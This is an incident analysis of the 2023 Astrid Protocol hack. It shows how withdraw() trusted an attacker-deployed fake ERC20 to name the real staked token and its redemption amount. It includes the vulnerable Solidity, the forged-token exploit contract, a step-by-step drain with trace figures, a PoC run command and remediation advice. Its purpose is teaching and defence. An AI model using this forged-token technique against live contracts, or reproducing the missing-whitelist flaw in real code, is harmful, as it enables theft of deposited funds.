

# Astrid Protocol Exploit — `withdraw()` Trusts an Attacker-Supplied "Restaked Token"

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains many
> unrelated PoCs that do not whole-compile, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [AstridProtocol.sol](sources/AstridProtocol_4d5b4b/AstridProtocol.sol).

---

## Key info

| | |
|---|---|
| **Loss** | ~$228,591 — **127.797 ETH** (64.176 stETH + 39.166 rETH + 20.000 cbETH drained) |
| **Vulnerable contract** | `AstridProtocol` (impl `0x4d5b…79E0C`) behind proxy [`0xbAa87546cF87b5De1b0b52353A86792D40b8BA70`](https://etherscan.io/address/0xbAa87546cF87b5De1b0b52353A86792D40b8BA70#code) |
| **Victim / drained assets** | stETH, rETH, cbETH held by the Astrid proxy |
| **Attacker EOA** | [`0x792ec27874e1f614e757a1ae49d00ef5b2c73959`](https://etherscan.io/address/0x792ec27874e1f614e757a1ae49d00ef5b2c73959) |
| **Attacker contract** | [`0xb2e855411f67378c08f47401eacff37461e16188`](https://etherscan.io/address/0xb2e855411f67378c08f47401eacff37461e16188) |
| **Attack tx** | [`0x8af9b5fb3e2e3df8659ffb2e0f0c1f4c90d5a80f4f6fccef143b823ce673fb60`](https://etherscan.io/tx/0x8af9b5fb3e2e3df8659ffb2e0f0c1f4c90d5a80f4f6fccef143b823ce673fb60) |
| **Chain / block / date** | Ethereum mainnet / fork block 18,448,167 / Oct 27, 2023 |
| **Compiler** | Solidity v0.8.18, optimizer **1 run** (impl); proxy v0.8.7 |
| **Bug class** | Missing token whitelist validation → forged-token withdrawal / arbitrary asset drain |

---

## TL;DR

`AstridProtocol` lets users deposit liquid-staking tokens (stETH, rETH, cbETH) and receive a
"restaked" receipt token, and later `withdraw()` to queue a redemption that is finalized with
`claim()`. The `withdraw()` function validates its `_restakedTokenAddress` argument **only** with
`Utils.contractExists()` — an `extcodesize > 0` check
([AstridProtocol.sol:406](sources/AstridProtocol_4d5b4b/AstridProtocol.sol#L406),
[Utils.sol:29-35](sources/AstridProtocol_4d5b4b/helpers_Utils.sol#L29-L35)). It **never checks
that the token is one Astrid actually issued / whitelisted**, and it derives the *staked* asset to
pay out by simply asking the supplied token what its `stakedTokenAddress()` is
([:457](sources/AstridProtocol_4d5b4b/AstridProtocol.sol#L457),
[:489](sources/AstridProtocol_4d5b4b/AstridProtocol.sol#L489)).

The attacker deploys a **fake ERC20** ([Astrid_exp.sol:15-75](test/Astrid_exp.sol#L15-L75)) whose:

- `stakedTokenAddress()` returns the **real** stETH / rETH / cbETH address, and
- `scaledBalanceToBalance(...)` returns an attacker-chosen amount (the *entire* balance Astrid holds
  of that staked token).

Calling `withdraw(fakeToken, balance)` makes Astrid lock the worthless fake token, mint a withdrawal
request whose `claimableStakedTokenAmount` equals Astrid's **full real balance** of the legit staked
token, and `claim()` then transfers that real balance to the attacker. Repeating this for all three
staked tokens drains Astrid completely. The receipt-token "burn" inside processing operates on the
fake token, so nothing of value is destroyed on the attacker's side.

Net result: the attacker walks away with **64.176 stETH + 39.166 rETH + 20.0004 cbETH**, which it
then unwinds to **127.797 ETH** (~$228.6K) within the same transaction. Zero capital required.

---

## Background — what Astrid Protocol does

`AstridProtocol` ([source](sources/AstridProtocol_4d5b4b/AstridProtocol.sol)) is an EigenLayer
liquid-restaking front-end. Its intended flow:

- **`deposit(stakedToken, amount)`** — pull a *whitelisted* staked token (stETH/rETH/cbETH) from the
  user, and mint the matching "restaked" receipt token via
  `IRestakedETH(...).mint()` ([:377-403](sources/AstridProtocol_4d5b4b/AstridProtocol.sol#L377-L403)).
  Note the **`require(stakedTokenMapping.whitelisted, ...)`** at
  [:382](sources/AstridProtocol_4d5b4b/AstridProtocol.sol#L382) — deposits are gated.
- **`withdraw(restakedToken, amount)`** — lock the user's restaked receipt token and create a
  `WithdrawalRequest` ([:405-444](sources/AstridProtocol_4d5b4b/AstridProtocol.sol#L405-L444)).
- **`_processWithdrawals()`** — for each pending request, look up the *staked* token, compute the
  staked-token amount owed, burn the receipt token, and mark the request `PROCESSED`
  ([:450-480](sources/AstridProtocol_4d5b4b/AstridProtocol.sol#L450-L480)).
- **`claim(index)`** — pay the processed staked-token amount out to the withdrawer
  ([:482-502](sources/AstridProtocol_4d5b4b/AstridProtocol.sol#L482-L502)).

The on-chain facts at the fork block (read from the trace's `balanceOf` calls):

| Astrid proxy holding | Balance |
|---|---|
| stETH (`0xae7a…fe84`) | 64.176037513415148812 stETH |
| rETH (`0xae78…6393`) | 39.165842900855519099 rETH |
| cbETH (`0xBe98…9704`) | 20.000407064566313222 cbETH |

Those three balances are the entire prize. The whole exploit is about getting `withdraw()` to issue
the attacker a claim equal to each balance, while paying in a fake token.

---

## The vulnerable code

### 1. `withdraw()` validates the token only by "is it a contract"

```solidity
function withdraw(address _restakedTokenAddress, uint256 amount) public nonReentrant whenNotPaused {
    require(Utils.contractExists(_restakedTokenAddress), "AstridProtocol: Contract does not exist");   // ← only check on the token!
    require(amount > 0, "AstridProtocol: Amount must be greater than 0");
    require(IERC20(_restakedTokenAddress).balanceOf(msg.sender) >= amount, "...");
    require(IERC20(_restakedTokenAddress).allowance(msg.sender, address(this)) >= amount, "...");

    uint256 sharesBefore = IRestakedETH(_restakedTokenAddress).scaledBalanceOf(address(this));
    bool amountSent = Utils.payMe(msg.sender, amount, _restakedTokenAddress);   // pull the (fake) token in
    require(amountSent, "...");
    uint256 sharesAfter = IRestakedETH(_restakedTokenAddress).scaledBalanceOf(address(this));
    uint256 shares = sharesAfter.sub(sharesBefore);   // attacker's fake token returns 0 ⇒ shares = 0

    WithdrawalRequest memory request = WithdrawalRequest({
        withdrawer: msg.sender,
        restakedTokenAddress: _restakedTokenAddress,   // ← the FAKE token is recorded
        amount: amount,
        requestedRestakedTokenShares: shares,          // 0
        ...
    });
    ...
}
```

[AstridProtocol.sol:405-444](sources/AstridProtocol_4d5b4b/AstridProtocol.sol#L405-L444). There is
**no** `require(stakedTokens[...].whitelisted)` and no check that `_restakedTokenAddress` is one of
Astrid's own receipt tokens — contrast with `deposit()` at
[:382](sources/AstridProtocol_4d5b4b/AstridProtocol.sol#L382) which *does* gate on `whitelisted`.

### 2. Processing trusts the token to name its own underlying & redemption rate

```solidity
function _processWithdrawals() internal whenNotPaused {
    while (withdrawalProcessingCurrentIndex < _withdrawalRequestsLength) {
        WithdrawalRequest memory request = withdrawalRequests[withdrawalProcessingCurrentIndex];
        address _restakedTokenAddress = request.restakedTokenAddress;                    // FAKE token
        address _stakedTokenAddress   = IRestakedETH(_restakedTokenAddress).stakedTokenAddress();        // ← attacker controls return value (real stETH)
        uint256 requestedAmount = IRestakedETH(_restakedTokenAddress).scaledBalanceToBalance(request.requestedRestakedTokenShares); // ← attacker controls return value
        if (requestedAmount > IERC20(_stakedTokenAddress).balanceOf(address(this)) - totalClaimableWithdrawals[_stakedTokenAddress]) {
            break;
        }
        totalWithdrawalRequests[_restakedTokenAddress] -= request.requestedRestakedTokenShares;
        IRestakedETH(_restakedTokenAddress).burn(address(this), requestedAmount);          // burns the worthless fake token
        totalClaimableWithdrawals[_stakedTokenAddress] += requestedAmount;
        withdrawalRequests[...].claimableStakedTokenAmount = requestedAmount;              // ← claim = full real balance
        withdrawalRequests[...].status = WithdrawalStatus.PROCESSED;
        ...
    }
}
```

[AstridProtocol.sol:450-480](sources/AstridProtocol_4d5b4b/AstridProtocol.sol#L450-L480). The two
attacker-controlled view calls are the heart of the bug:

- `stakedTokenAddress()` — the fake token returns the **real** staked-token address, so Astrid pays
  out a legitimate asset.
- `scaledBalanceToBalance(shares)` — the fake token ignores `shares` entirely and returns whatever
  the attacker baked into its constructor (the proxy's full balance of that staked token).

### 3. `claim()` pays out the staked token

```solidity
function claim(uint256 withdrawerIndex) public nonReentrant whenNotPaused {
    WithdrawalRequest memory request = withdrawalRequestsByUser[msg.sender][withdrawerIndex];
    require(request.status == WithdrawalStatus.PROCESSED, "...");
    require(request.withdrawer == msg.sender, "...");
    address _stakedTokenAddress = IRestakedETH(request.restakedTokenAddress).stakedTokenAddress();   // FAKE→real stETH again
    ...
    totalClaimableWithdrawals[_stakedTokenAddress] -= request.claimableStakedTokenAmount;
    bool sent = Utils.payDirect(msg.sender, request.claimableStakedTokenAmount, _stakedTokenAddress); // real stETH → attacker
    require(sent, "...");
    ...
}
```

[AstridProtocol.sol:482-502](sources/AstridProtocol_4d5b4b/AstridProtocol.sol#L482-L502).

### 4. The forged token

```solidity
contract MyERC20 {
    address public stakedTokenAddr;     // set to the REAL staked token in ctor
    uint256 public scaledBalanceToBal;  // set to Astrid's full balance in ctor

    constructor(address _stakedTokenAddress, uint256 bal) public {
        stakedTokenAddr   = _stakedTokenAddress;
        scaledBalanceToBal = bal;
    }
    function scaledBalanceOf(address) external pure returns (uint256) { return 0; }          // ⇒ withdraw() shares = 0
    function stakedTokenAddress() external returns (address) { return stakedTokenAddr; }     // ⇒ "underlying is real stETH"
    function scaledBalanceToBalance(uint256) external returns (uint256) { return scaledBalanceToBal; } // ⇒ claim = full balance
    // plus trivial mint/burn/transferFrom so payMe() succeeds
}
```

[Astrid_exp.sol:15-75](test/Astrid_exp.sol#L15-L75).

---

## Root cause — why it was possible

The protocol's accounting assumes a **bijection** between a restaked receipt token and its underlying
staked token, enforced by the admin-set `stakedTokens` whitelist. `deposit()` honors that assumption
(it requires `whitelisted`). But `withdraw()` and `_processWithdrawals()` **derive that relationship
from the token contract itself** instead of from the whitelist:

1. **No whitelist check on `withdraw()`.** Any contract with non-zero code can be passed as the
   "restaked token." `Utils.contractExists()` only checks `extcodesize > 0`
   ([Utils.sol:29-35](sources/AstridProtocol_4d5b4b/helpers_Utils.sol#L29-L35)) — trivially satisfied
   by a freshly deployed attacker contract.
2. **Trusting the token to name its own underlying.** `_stakedTokenAddress` comes from
   `token.stakedTokenAddress()`, a value fully under attacker control. The fake points at real stETH.
3. **Trusting the token to set its own redemption value.** `requestedAmount` comes from
   `token.scaledBalanceToBalance(shares)`, again attacker-controlled. The fake returns Astrid's whole
   real balance regardless of input.
4. **The only "solvency" guard is per-staked-token balance, not per-receipt-token backing.** The
   single check, `requestedAmount <= balanceOf(this) - totalClaimableWithdrawals`
   ([:459](sources/AstridProtocol_4d5b4b/AstridProtocol.sol#L459)), is satisfied by sizing the fake
   token's `scaledBalanceToBalance` to *exactly* the available balance — so processing always succeeds
   and never reverts.

Composed: the attacker mints a worthless token that *claims* to be backed by Astrid's real stETH for
the full amount, and the protocol obediently burns the fake and pays out the real asset. Because the
"burn" hits the fake token's own bookkeeping
([:464](sources/AstridProtocol_4d5b4b/AstridProtocol.sol#L464)), the attacker loses nothing.

---

## Preconditions

- Astrid holds a non-zero balance of a real staked token (stETH/rETH/cbETH) — true at the fork block.
- The attacker can deploy a contract (forged token) — always available, permissionless.
- The contract is not paused (`whenNotPaused`) — it was live.
- **No capital required.** The fake token is minted from nothing; the only "cost" is gas. The real
  staked tokens received are then swapped to ETH within the same transaction.

---

## Attack walkthrough (with on-chain numbers from the trace)

For each of the three staked tokens `T ∈ {stETH, rETH, cbETH}` the attacker repeats the same 4-step
loop ([Astrid_exp.sol:119-128](test/Astrid_exp.sol#L119-L128)), then unwinds the proceeds to ETH.

| # | Step | Concrete values (from [output.txt](output.txt)) |
|---|------|---|
| 0 | Read Astrid's balance of `T` | stETH **64.176037513415148812**, rETH **39.165842900855519099**, cbETH **20.000407064566313222** |
| 1 | Deploy `MyERC20(realT, balanceT)`, `mint(10_000e18)`, `approve(Astrid, max)` | fake token addresses `0x5615…b72f` (stETH), `0x2e23…470b` (rETH), `0xF628…820a` (cbETH) |
| 2 | `withdraw(fakeT, balanceT)` | Astrid pulls in the fake token; `scaledBalanceOf` returns 0 ⇒ `shares = 0`; `WithdrawalProcessed(12/13/14)` emitted; `claimableStakedTokenAmount = balanceT` |
| 3 | `claim(i)` | Astrid `payDirect`s the **real** `T` balance to the attacker (e.g. stETH `Transfer … value 64.176…`) |
| 4 | Repeat for next token | three full cycles, indices 0/1/2 |

Then the attacker converts the looted staked tokens to ETH:

| Conversion | Route | Input | Output |
|---|---|---:|---:|
| stETH → ETH | Curve stETH/ETH pool `0xDC24…7022` `exchange(1,0,…)` | 64.176037513415148812 stETH | **64.158750839795105151 ETH** (`TokenExchange`) |
| rETH → WETH | Uni V3 rETH/WETH `0xa4e0…9613` `swap()` | 39.165842900855519099 rETH | **42.618102617683845956 WETH** (`Swap` amount1) |
| cbETH → WETH | Uni V3 cbETH/WETH `0x840D…4410` `swap()` | 20.000407064566313222 cbETH | **21.020645622463912471 WETH** (`Swap` amount1) |
| WETH → ETH | `WETH9.withdraw()` | 63.638748240147758427 WETH | 63.638748240147758427 ETH |

Final attacker ETH balance: **127.797499079942863578 ETH** (started at 0).

Sanity check: `64.158750839795105151` (Curve ETH) + `63.638748240147758427` (WETH→ETH)
= `127.797499079942863578 ETH` ✓ — exactly the logged ending balance. The WETH side
`42.618102617683845956 + 21.020645622463912471 = 63.638748240147758427` ✓.

### Why processing never reverts

The one guard at [:459](sources/AstridProtocol_4d5b4b/AstridProtocol.sol#L459) is
`requestedAmount > balanceOf(this) - totalClaimableWithdrawals → break`. The attacker sets the fake
token's `scaledBalanceToBalance` to **exactly** Astrid's available balance of the real token, so
`requestedAmount == balanceOf(this)` and the strict `>` is false — processing proceeds, sets the
claim, and the subsequent `claim()` empties that token.

---

## Profit / loss accounting

| | Amount |
|---|---:|
| stETH stolen | 64.176037513415148812 |
| rETH stolen | 39.165842900855519099 |
| cbETH stolen | 20.000407064566313222 |
| **Realized as ETH** | **127.797499079942863578 ETH** |
| Attacker capital in | **0** (fake token minted for free; gas only) |
| **Net profit** | **+127.797 ETH (~$228.6K at the time)** |

The loss equals Astrid's entire stETH/rETH/cbETH holdings — the protocol was drained of every
in-contract staked asset.

---

## Diagrams

### Sequence of one drain cycle (repeated ×3) + unwind

```mermaid
sequenceDiagram
    autonumber
    actor A as "Attacker contract"
    participant F as "Fake ERC20 (MyERC20)"
    participant AS as "AstridProtocol (proxy)"
    participant T as "Real staked token (stETH/rETH/cbETH)"
    participant DEX as "Curve / Uniswap V3"

    Note over AS: holds 64.176 stETH / 39.166 rETH / 20.000 cbETH

    A->>AS: balanceOf(AS) of real token
    AS-->>A: balanceT
    A->>F: deploy MyERC20(realT, balanceT); mint; approve(AS, max)

    rect rgb(255,235,238)
    Note over A,T: withdraw() trusts the fake token
    A->>AS: withdraw(fakeToken, balanceT)
    AS->>F: scaledBalanceOf(AS)
    F-->>AS: 0  (shares = 0)
    AS->>F: transferFrom(A → AS, balanceT)  (lock worthless token)
    AS->>F: stakedTokenAddress()
    F-->>AS: realT  ⚠️
    AS->>F: scaledBalanceToBalance(0)
    F-->>AS: balanceT  ⚠️ (== AS's real balance)
    AS->>F: burn(AS, balanceT)  (burns fake, no real loss)
    Note over AS: WithdrawalProcessed → claimable = balanceT of realT
    end

    rect rgb(232,245,233)
    Note over A,T: claim() pays out the REAL asset
    A->>AS: claim(i)
    AS->>F: stakedTokenAddress() → realT
    AS->>T: safeTransfer(A, balanceT)
    T-->>A: balanceT real staked token
    end

    Note over A,DEX: after 3 cycles, unwind to ETH
    A->>DEX: stETH→ETH (Curve), rETH/cbETH→WETH (UniV3); WETH.withdraw
    DEX-->>A: 127.797 ETH total
```

### Where the trust boundary breaks



### `deposit` vs `withdraw`: the asymmetric validation

```mermaid
stateDiagram-v2
    direction LR
    [*] --> deposit
    [*] --> withdraw

    state deposit {
        d1: require(whitelisted) ✅
        d2: pull real staked token
        d3: mint real receipt token
        d1 --> d2 --> d3
    }

    state withdraw {
        w1: require(contractExists) ⚠️ only
        w2: NO whitelist check ❌
        w3: trust token.stakedTokenAddress()
        w4: trust token.scaledBalanceToBalance()
        w1 --> w2 --> w3 --> w4
    }

    note right of withdraw
        Attacker enters through the
        unguarded withdraw path with
        a forged token and drains the
        assets deposited via the
        guarded deposit path.
    end note
```

---

## Remediation

1. **Whitelist-gate `withdraw()` exactly like `deposit()`.** The restaked token must be one Astrid
   actually issued. Reverse-map it through the admin-controlled `stakedTokens` mapping and require the
   entry is `whitelisted`, e.g. require that `stakedTokens[token.stakedTokenAddress()].restakedTokenAddress == _restakedTokenAddress`.
2. **Never derive the underlying asset or redemption rate from the token argument.** Read
   `stakedTokenAddress` and the share→balance conversion from Astrid's own trusted state / its own
   canonical `IRestakedETH` instances, not from an arbitrary caller-supplied contract.
3. **Replace `contractExists()` with identity validation.** `extcodesize > 0` proves nothing about
   trustworthiness; it is satisfied by any deployed contract. Token arguments to value-moving
   functions must be checked for *identity* (membership in a curated set), not mere existence.
4. **Back claims with actual locked shares.** `requestedRestakedTokenShares` was 0 for the attacker
   yet the claim was the full balance — the share accounting and the payout amount must be derived
   from the *same* trusted source so that a 0-share lock can never produce a non-zero payout.
5. **Add an invariant / circuit breaker** that the sum of outstanding `claimableStakedTokenAmount` per
   staked token can never exceed the protocol's genuine backing for that asset.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has many
unrelated PoCs that fail to whole-compile under `forge test`):

```bash
_shared/run_poc.sh 2023-10-Astrid_exp --mt testExpolit -vvvvv
```

- RPC: an Ethereum mainnet **archive** endpoint is required (fork block 18,448,167). `foundry.toml`'s
  `mainnet` alias must point at an archive provider that serves historical state at that block.
- Result: `[PASS] testExpolit()` — attacker ETH balance goes 0 → **127.797 ETH**.

Expected tail ([output.txt:1566-1570](output.txt)):

```
Ran 1 test for test/Astrid_exp.sol:ASTTest
[PASS] testExpolit() (gas: 4070008)
  Attacker Eth balance before attack:: 0.000000000000000000
  Attacker Eth balance after attack:: 127.797499079942863578
```

---

*Reference: Phalcon / BlockSec analysis — https://twitter.com/Phalcon_xyz/status/1718454835966775325 (Astrid Protocol, Ethereum, ~$228.6K).*
